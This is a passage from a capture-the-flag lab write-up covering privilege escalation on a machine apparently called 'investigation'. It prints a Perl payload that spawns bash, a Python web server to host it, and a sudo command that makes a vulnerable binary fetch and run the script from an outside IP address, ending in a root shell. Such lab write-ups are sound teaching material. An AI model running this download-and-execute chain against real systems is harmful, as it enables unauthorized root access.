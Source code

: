 I'm not a pro at asm or c but looking at the code it's clear to me that we have to:  

1. Provide 2 additional arguments
2. argv[1] should be a perl script hosted on a web resource
3. argv[2] has to be the string **lDnxUysaQn**

## Become Root

**root.pl**

Let's prepare a simple perl script to get a root shell  

```perl
exec "/bin/bash";
```

**Python Webserver**  

Host a webserver to serve that file  

```bash
python3 -m http.server 8080
```

**Privilege Escalation**  

The fun part, let's become root  

```bash
smorton@investigation:~$ /bin/sudo /usr/bin/binary http://10.10.14.52:8080/root.pl lDnxUysaQn
Running... 
root@investigation:/home/smorton# whoami
root
```